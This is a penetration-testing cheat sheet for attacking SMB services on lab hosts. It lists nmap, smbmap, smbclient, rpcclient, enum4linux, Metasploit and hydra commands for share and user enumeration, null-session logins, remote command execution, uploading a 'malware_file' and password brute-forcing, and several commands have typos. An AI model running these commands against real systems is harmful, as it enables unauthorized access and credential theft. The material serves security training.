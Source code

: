 ```yaml
---
description: SMB is a windows implementation of file share (server message block)
---
```


# i - SMB - 135,139,445

`nmap -T4 $ip/24 --open` - scan for open ports on a subnet.

`nmap -sV -O $ip` - run a service version and OS detection scan on a specific host.

`nmap $ip -sV -sC` - service version and default scripts for more info.

### Deleting and Creating a FileShare in windows (SMB)

`net use * /delete` - in PowerShell, we can delete a mapped drive share with the cmd.

`net use Z: \\$ip\path password /user:admin` - reconnecting/mapping a file share.

### Enumerating SMB with Nmap scripts

`nmap -p445 --script smb-protocols 192.168.0.141` - enumerating smb protocols.

`map -p445 --script smb-security-mode 192.168.0.141` - security mode scan.

`nmap -p445 --script smb-enum-sessions 192.168.0.141` - enumerating active sessions.

`nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 $ip` - to view active sessions.

`nmap -p445 --script smb-enum-shares 192.168.0.141` - list all shares.

`nmap -p445 --script smb-enum-users 192.168.0.141` - list all users.

`nmap -p445 --script smb-server-stats --script-args smbusername=msfadmin,smbpassword=msfadmin 192.168.0.141` - server statistics.

`nmap -p445 --script smb-enum-domains --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerate domains.

`sudo nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerating and listing  shares.

### \[smbmap] utility

`smbmap -u guest -p "" -d . -H 192.168.0.141` - enumerating for guest acct shares.

`smbmap -H 192.168.0.141 -x 'ifconfig' -u administrator -p smbserver_771 -x 'ipconfig'` - executing the "ipconfig" cmd  by the admin with the `-x` option.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -L` - the `-L` lists all mapped drives.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -r 'C$'` - the `-r` lists all the content of the C drive.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -upload '/root/malware_file' 'C$\malware_file' - we can upload a malicious file by using the` --upload\` cmd and specify the path..

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -download'C$\flag.txt' - we can download a file from the SMB server by using the` --download\` cmd.



## Samba 1

`nmap $ip -p445 --script smb-os-discovery` - OS discovery script.

### \[msfconsole] Metasploit

`use auxiliary/sscanner/smb/smb_version` , then `show options` , `set RHOSTS` , `run` - run the payload.

### \[nmblookup] utility

`nmblookup -A 192.168.0.141` - a node status lookup for the ip. When we get a "<20>" it means we have a server we can connect to. To connect, we use "smbclient" utility.

### \[smbclient] utility

`smbclient //$ip/path  -N` - logging in with no password.

`smbclient -L 192.168.0.141 -N` - listing shares and check for a NULL session with the `-N` option.

`smbclient //$ip/jane -U jane` - loggingin as jane and viewing her share.

`smbclient -L $ip -U admin` - trying to list shares as the user admin.

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

when you see an "IPC"  with a NULL session, we might be able to connect to it.

### \[rpcclient] utility

`rpcclient -U "" -N 192.168.0.141` - and we successful login.

```bash
# cmds we can run in rpcclient active session.
srvinfo  # gives info about the victim system example: os version: 6.1.

# after login, you can enumerate users
enumdomusers    # enumerate users.
enumdomgroups   # enumerate groups.
lookupnames admin    # gives us full info/SID of the admin user.
```

### \[enum4linux] utility

`enum4linux -o $ip` - enumerate OS version.

`enum4linux -U $ip` - enumerate users also.

`enum4linux -S $ip` - enumerate shares.

`enum4linux -G $ip` - enumerate groups.

`enul4linux -i $ip` - enumerating printers.

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

### \[msfconsole] Metasploit

`use auxiliary/scanner/smb/smb2` , `set RHOSTS $ip` , `run` - checking for the SMB protocol versions.



## SMB Dictionary Attack

All the tricks listed above runs well using NULL sessions, but what if NULL sessions dosent work? what if we don't have login creditentials? Then we try dictionary bruteforcing attacks.

### Using Metasploit script to bruteforce

`use auxilliary/scanner/smb/smb_login` , `options` , `set RHOSTS $1p` ,  `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` , `set smbuser dking` - assuming we already enumerated users and "dking" is a user. `run` .

### Using \[hydra] for  bruteforce

`hydra -l admin -P /usr/share/wordlist/rockyou.txt $ip smb` - runs the attack.

`smbmap -H $ip -u admin -p` - try and login with the password you got.



## Getting other Services that Piped through SMB with Metasploit..

`use auxiliary/smb/pipe_auditor` , `set smbuser admin` , `set smbpass password1`, `set RHOSTS $ip` , `run` .

### Getting the SID's for different users.

`enum4linux -r -u "admin" -p "password1" $ip` - enumerating users using SID.





